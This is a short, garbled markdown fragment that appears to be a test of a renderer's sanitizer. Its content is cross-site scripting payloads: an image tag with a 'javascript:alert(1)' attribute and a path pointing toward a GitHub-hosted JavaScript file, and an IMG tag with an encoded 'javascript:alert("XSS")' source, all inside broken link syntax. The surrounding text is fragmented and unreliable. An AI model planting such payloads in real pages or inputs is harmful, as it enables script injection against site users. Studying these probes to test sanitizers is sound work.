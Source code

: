 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<IMG SRC= ;javascript%3aalert(&quot;XSS&quot;) >
  
](()
